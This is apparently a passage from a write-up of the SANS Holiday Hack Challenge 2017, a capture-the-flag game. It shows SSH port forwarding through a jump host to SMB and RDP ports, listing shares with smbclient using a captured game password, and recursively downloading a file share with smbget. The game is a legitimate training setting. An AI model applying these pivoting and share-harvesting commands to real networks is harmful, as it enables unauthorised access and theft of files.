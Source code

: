 I realised that I wasn't forwarding `port 139` (Which handles NetBIOS sessions).

I also found out that I could forward multiple ports over ssh by simply adding multiple `-L` arguments, so I went ahead a made up this command to handle the connections to all 4 ports on the system.

```bash
$ ssh -L 127.0.0.1:135:10.142.0.7:135 -L 127.0.0.1:139:10.142.0.7:139 -L 127.0.0.1:445:10.142.0.7:445 -L 127.0.0.1:3389:10.142.0.7:3389 alabaster_snowball@l2s.northpolechristmastown.com
```

Going back and trying the `smbclient` command again and was happy to see I had much more success now

```bash
$ smbclient -L HHC17-SMB-SERVE -I 127.0.0.1 -U alabaster_snowball

Enter WORKGROUP\alabaster_snowball's password: stream_unhappy_buy_loss

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	FileStor        Disk
	IPC$            IPC       Remote IPC
```

The share that stood out to me was **FileStor**, so I went ahead and used the following command to connect to this share over `smbclient` again.

*NOTE: The use of the `\` in front of each backslash is to override the escape character that this key usually invokes*

```bash
smbclient \\\\HHC17-SMB-SERVE\\FileStor -I 127.0.0.1 -U alabaster_snowball

Enter WORKGROUP\alabaster_snowball's password: stream_unhappy_buy_loss

Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Dec  7 05:51:46 2017
  ..                                  D        0  Thu Dec  7 05:51:46 2017
  BOLO - Munchkin Mole Report.docx      A   255520  Thu Dec  7 05:44:17 2017
  GreatBookPage3.pdf                  A  1275756  Tue Dec  5 03:21:44 2017
  MEMO - Calculator Access for Wunorse.docx      A   111852  Tue Nov 28 03:01:36 2017
  MEMO - Password Policy Reminder.docx      A   133295  Thu Dec  7 05:47:28 2017
  Naughty and Nice List.csv           A    10245  Fri Dec  1 03:42:00 2017
  Naughty and Nice List.docx          A    60344  Thu Dec  7 05:51:25 2017

		13106687 blocks of size 4096. 9624477 blocks available
```

Fantastic! I'd stumbled across the motherload of files. I used the `smbget` command to pull all these files across to my local system

```bash
$ smbget -R smb://127.0.0.1/FileStor -U alabaster_snowball

Password for [alabaster_snowball] connecting to //FileStor/127.0.0.1: stream_unhappy_buy_loss
Using workgroup WORKGROUP, user alabaster_snowball

smb://127.0.0.1/FileStor/BOLO - Munchkin Mole Report.docx
smb://127.0.0.1/FileStor/GreatBookPage3.pdf
smb://127.0.0.1/FileStor/MEMO - Password Policy Reminder.docx
smb://127.0.0.1/FileStor/Naughty and Nice List.csv
smb://127.0.0.1/FileStor/Naughty and Nice List.docx

Downloaded 1.65MB in 25 seconds
```
